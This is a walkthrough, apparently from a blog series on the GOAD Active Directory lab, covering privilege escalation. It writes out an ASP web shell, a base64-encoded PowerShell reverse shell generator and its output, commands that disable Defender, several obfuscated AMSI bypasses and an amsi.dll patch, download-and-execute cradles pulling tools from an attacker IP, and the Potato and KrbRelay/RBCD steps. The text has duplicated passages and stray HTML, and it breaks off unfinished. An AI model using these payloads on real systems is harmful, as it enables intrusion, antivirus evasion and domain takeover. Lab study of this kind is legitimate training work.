







GOAD - part 7 - Privilege escalation - RBCD exploitation not working (KCD) Constrained - to be finished
In this part section we will focus a little bit on privilege escalation. Let’s assume that we do have a webpage exposed somewhere that allows us to upload files, at some point we were able to straightforward upload the file we want to with no filter at all or we were even able to bypass any filter mechanism or WAF. Let’s create a basic
Let’s create a basic .asp payload for command execution and upload it.
> At the time of writing, this avoid defender signature
>
<%
Function getResult(theParam)
Dim objSh, objResult
Set objSh = CreateObject("WScript.Shell")
Set objResult = objSh.exec(theParam)
getResult = objResult.StdOut.ReadAll
end Function
%>
<HTML>
<BODY>
Enter command:
<FORM action="" method="POST">
<input type="text" name="param" size=45 value="<%= myValue %>">
<input type="submit" value="Run">
</FORM>
<p>
Result :
<%
myValue = request("param")
thisDir = getResult("cmd /c" & myValue)
Response.Write(thisDir)
%>
</p>
<br>
</BODY>
</HTML>

We can continue from here using the webpage interface or we can get a reverse shell which is better. Let’s use the following payload to generate a reverse shell and encode it to base64 so we can also bypass Windows Defender detection as well. #!/usr/bin/env python
import base64
import sys
if len(sys.argv) < 3:
print('usage : %s ip port' % sys.argv[0])
sys.exit(0)
payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
$sb = (iex $d 2>&1 | Out-String );
$sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
$s.Write($sb,0,$sb.Length);
$s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])
byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())
./Shell_ConvB64.py 10.4.10.1 53
powershell -exec bypass -enc CgAkAGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAnADEAOQAyAC4AMQA2ADgALgA1ADYALgAxACcALAA1ADMAKQA7AAoAJABzACAAPQAgACQAYwAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AAoAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAC4AUgBlAGEAZAAoACQAYgAsACAAMAAsACAAJABiAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewAKACAAIAAgACAAJABkACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIALAAwACwAIAAkAGkAKQA7AAoAIAAgACAAIAAkAHMAYgAgAD0AIAAoAGkAZQB4ACAAJABkACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7AAoAIAAgACAAIAAkAHMAYgAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBiACAAKwAgACcAcABzAD4AIAAnACkAOwAKACAAIAAgACAAJABzAC4AVwByAGkAdABlACgAJABzAGIALAAwACwAJABzAGIALgBMAGUAbgBnAHQAaAApADsACgAgACAAIAAgACQAcwAuAEYAbAB1AHMAaAAoACkACgB9ADsACgAkAGMALgBDAGwAbwBzAGUAKAApAAoA
rlwrap nc -lnvp 53

As we can see above, I usedrlwrap with NetCat.
Once we are inside the target machine, we can start with a basic user enumeration command:
whoami /all

The command output shows us several valid info, User info, Group info and Privileges Info for this user. As an IIS service user we gotSeImpersonatePrivilege privilege, this privilege is enabled by default for this service account.
# Privesc
for this privesc we will focus on 2 types of privescs that got a “NOT FIX” by Microsoft which are PrintSpoofer and KrbRelay.
> To do all following tests Windows Defender must enabled on all system. Castelblack got defender disabled by default, you should enable it before testing the privesc technics described here
>
### Disable RealTime Defender using an Admin Account
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
set-MpPreference -DisableAutoExclusions $true
### Enable RealTime Defender using an Admin Account
Set-MpPreference -DisableRealtimeMonitoring $false
Set-MpPreference -DisableIOAVProtection $false
set-MpPreference -DisableAutoExclusions $false
## AMSI - Anti-Malware Scan Interface bypass
At a high level, think of AMSI like a bridge which connects powershell to the antivirus software, every command or script we run inside powershell is fetched by AMSI and sent to installed antivirus software for inspection.
AMSI works on signature-based detection. This means that for every particular malicious keyword, URL, function or procedure, AMSI has a related signature in its database. So, if an attacker uses that same keyword in his code again, AMSI blocks the execution then and there.
There are several ways to bypass this protection and this is what we will be focused in this session.
You can check several AMSI bypass in this Repo by S3cur3Th1sSh1t.
There is also the website amsi.fail that generates obfuscated PowerShell snippets that break or disable AMSI for the current process.
This PDF is a nice resource to have a look on:
https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf
AMSI Bypass windows 11https://github.com/senzee1984/Amsi_Bypass_In_2023
If CMD non Admin right:
RunWithRegistryNonAdmin.bat
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f
powershell
set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll
powershell
set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
SeT-Item ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) (<a href=" "{1}{0}"-F'F','rE' " target="_blank">TYpE</a> ) ; ( Get-varIABLE (('1Q'+'2U') +'zX' ) -VaL )."AssEmbly"."GETTYPe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."getfiElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sETVaLUE"(${nULl},${tRuE} )
(New-Object Net.WebClient).DownloadFile('<a href="http://192.168.56.1:8080/PowerView.ps1','C:%5C%5Ctmp%5C%5CPowerView.ps1" target="_blank">http://10.4.10.1:8080/PowerView.ps1','C:\\tmp\\PowerView.ps1</a>')
Invisi-Shell https://github.com/OmerYa/Invisi-Shell
AMSI Bypass (if you are in Powershell revershe shell using Evil-WinRM remote access to the target)
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$x=[Ref].Assembly.GetType('<a href="http://system.management.automation.am/" target="_blank">System.Management.Automation.Am</a>'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text'[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
Disable AMSI at the .net level
(new-object system.net.webclient).downloadstring('http://10.4.10.1:8080/amsi.txt')|IEX

- Once we have done that, we can play what we want with the condition to don’t touch the disk!
- We can now play all our .net application by running them directly with execute assembly.
iex(new-object net.webclient).downloadstring('http://10.4.10.1:8080/PowerSharpPack.ps1')
PowerSharpPack -winPEAS
SetImpersonatePrivilege on the current user, so we can use it for privesc.
 ## SeImpersonatePrivilege to Authority\system
To escalate privileges from our low level user taking advantage of the
## SeImpersonatePrivilege to Authority\system
To escalate privileges from our low level user taking advantage of the SetImpersonatePrivilege, we can use one of the POTATOES techniques.
You can learn more about Potatoes Windows Privilege Escalation here: https://jlajara.gitlab.io/Potatoes_Windows_Privesc
For this one we will use SweetPotato which is a compilation of all potatoes.
echo "@echo off" > runme.bat
echo "start /b $(python3 Shell_ConvB64.py 10.4.10.1 4445)" >> runme.bat
echo "exit /b" >> runme.bat

- By default the tool use the printSpoofer technic by @itm4n
- If you don’t want to compile sweet patatoes we can also do that with BadPotato from PowerSharpPack (First we must bypass AMSI or it will be detected)
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
iex(new-object system.net.webclient).downloadstring('http://10.4.10.1:8080/amsi.txt')
iex(new-object net.webclient).downloadstring('http://10.4.10.1:8081/Invoke-BadPotato.ps1')
Invoke-BadPotato -Command "c:\tmp\runme.bat"
NT Authority\System

# KrbRelay Up Another way to escalate privilege here is Kerberos Relay, to achieve that we can use krbRelayUp. Since krbRelayUp is easily detected by Windows Defender we need to be very caution for this attack in order to avoid AV detection. NOTE: The conditions to exploit this privesc is LDAP signing isNOT enforced, we can check that with NetExec ldap-signing module.
Let’s use NetExec to enumerate it.
netexec ldap 10.4.10.10-12 -u 'jon.snow' -p 'iknownothing' -d 'north.sevenkingdoms.local' -M ldap-checker
 We can see above that LDAP Signing is NOT enforced in hosts 10.4.10.10,11 and .12 as well.
### Add computer and RBCD
To exploit krbrelay by adding a computer, we must be able to add new Computer, we can check that with NetExec MAQ module as well.
We can see above that LDAP Signing is NOT enforced in hosts 10.4.10.10,11 and .12 as well.
### Add computer and RBCD
To exploit krbrelay by adding a computer, we must be able to add new Computer, we can check that with NetExec MAQ module as well.
netexec ldap 10.4.10.11 -u 'jon.snow' -p 'iknownothing' -d 'north.sevenkingdoms.local' -M MAQ
We can see above that we can add up to 10 in domain with user jon.snow in hosts 10.4.10.11!
Now let’s add the computer.
### Add computer
Using addcomputer.py by Impacket.
addcomputer.py</a> -computer-name 'krbrelay$' -computer-pass 'ComputerPass' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'

The message above confirms that we were able to add a new computer calledkrbrelay$.
### Get the SID of that computer
Now we need to get the SID of the computer (Let’s execute it inside our shell in the target machine - PowerShell)
$o = ([ADSI]"LDAP://CN=krbrelay,CN=Computers,DC=north,DC=sevenkingdoms,DC=local").objectSID
(New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value

S-1-5-21-1696939732-3083896300-4009139380-1122
Uploading File in Powershell.
(New-Object System.Net.WebClient).DownloadFile('<a href="http://192.168.56.1:8080/CheckPort.exe','C:%5C%5Ctmp%5C%5CCheckPort.exe" target="_blank">http://10.4.10.1:8080/CheckPort.exe','C:\\tmp\\CheckPort.exe</a>')
Now let’s check what ports we can use internally for this attack by checking what ports can communicate out. For this we can use CheckPort.exe from KrbRelay.
 We can see that System is allowed through port 10 in this target.
Ok now let’s launch the KrbRelay.
We can see that System is allowed through port 10 in this target.
Ok now let’s launch the KrbRelay.
.\KrbRelay.exe -spn ldap/winterfell.north.sevenkingdoms.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-1696939732-3083896300-4009139380-1122 -port 10
-rbcd - Is the current machine SID
-clsid</strong> -CLSID to use for coercing Kerberos auth from local machine account (default=90f18417-f0f1-484e-9d3c-59dceee5dbd8)
 Now we can finish the RBCD exploitation using impacket.
Using getTGT.py we uses a valid krbrelay’s NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.
Now we can finish the RBCD exploitation using impacket.
Using getTGT.py we uses a valid krbrelay’s NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.
getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$':'ComputerPass'
 We were able to retrieve the krbrelay$.ccache to our attacking machine.
Now that we detain the Ticket Granting Ticket, we can use it to request the Administrator Service Ticket.
We were able to retrieve the krbrelay$.ccache to our attacking machine.
Now that we detain the Ticket Granting Ticket, we can use it to request the Administrator Service Ticket.